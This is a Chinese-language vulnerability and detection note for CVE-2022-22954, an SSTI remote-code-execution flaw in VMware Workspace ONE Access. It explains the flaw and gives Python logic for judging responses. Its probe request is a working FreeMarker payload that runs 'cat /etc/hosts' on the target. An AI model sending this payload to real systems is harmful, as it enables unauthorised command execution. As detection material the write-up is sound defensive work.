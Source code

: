# VMware Workspace ONE Access SSTI远程代码执行漏洞（CVE-2022-22954）检测说明

## 漏洞简介

VMware Workspace ONE Access 存在服务端模板注入（SSTI）漏洞，攻击者可通过构造特定请求实现远程代码执行，危及系统的机密性、完整性和可用性。

## 影响范围

- 产品：VMware Workspace ONE Access / Identity Manager
- 影响版本：3.3.3 及相关版本
- CVE编号：CVE-2022-22954
- 危害等级：Critical

## 漏洞原理

/catalog-portal/ui/oauth/verify接口的deviceUdid参数未做有效过滤，攻击者可注入模板表达式，利用freemarker模板引擎的执行能力，最终实现任意命令执行。

## 利用方式与攻击流程

1. 攻击者构造带有SSTI payload的GET请求，deviceUdid参数注入freemarker模板表达式。
2. 服务器端未对参数进行安全处理，直接渲染模板。
3. 模板引擎执行恶意表达式，触发命令执行。
4. 响应体返回特定错误信息，攻击者据此判断漏洞是否存在。

## 探测原理与流程

### 探测请求的构造

```http
GET /catalog-portal/ui/oauth/verify?error=&deviceUdid=${%22freemarker.template.utility.Execute%22?new()("cat /etc/hosts")} HTTP/1.1
Host: target.com
```

- deviceUdid参数注入freemarker模板表达式，尝试执行命令。

### 预期响应与交互

- 响应体需包含`Authorization context is not valid`。
- HTTP状态码为400。

### 判定逻辑

```python
def is_vulnerable(response):
    if response.status_code == 400 and 'Authorization context is not valid' in response.text:
        return True
    return False
```

### 检测流程Mermaid图

```mermaid
graph TD
    A[发送带SSTI payload的GET请求] --> B[接收HTTP响应]
    B --> C{响应体含Authorization context is not valid?}
    C -- 否 --> F[非漏洞]
    C -- 是 --> D{状态码为400?}
    D -- 否 --> F
    D -- 是 --> G[判定存在SSTI漏洞]
```

## 参考链接

- [Tenable分析](https://www.tenable.com/blog/vmware-patches-multiple-vulnerabilities-in-workspace-one-vmsa-2022-0011)
- [VMware官方通告](https://www.vmware.com/security/advisories/VMSA-2022-0011.html)
- [Packet Storm分析](http://packetstormsecurity.com/files/166935/VMware-Workspace-ONE-Access-Template-Injection-Command-Execution.html)
- [NVD官方漏洞库](https://nvd.nist.gov/vuln/detail/CVE-2022-22954) 